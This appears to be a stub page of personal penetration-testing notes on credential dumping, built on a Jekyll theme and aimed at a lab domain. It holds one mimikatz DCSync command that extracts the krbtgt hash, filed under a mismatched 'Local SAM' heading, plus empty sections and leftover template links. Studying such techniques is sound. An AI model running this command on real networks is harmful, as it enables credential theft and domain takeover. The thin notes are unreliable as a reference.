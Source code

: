 ```yaml
---
title: 2 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
permalink: /credentials-dumping
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```




# Credentials Dumping
## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
```
## VLANs

## SDP

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
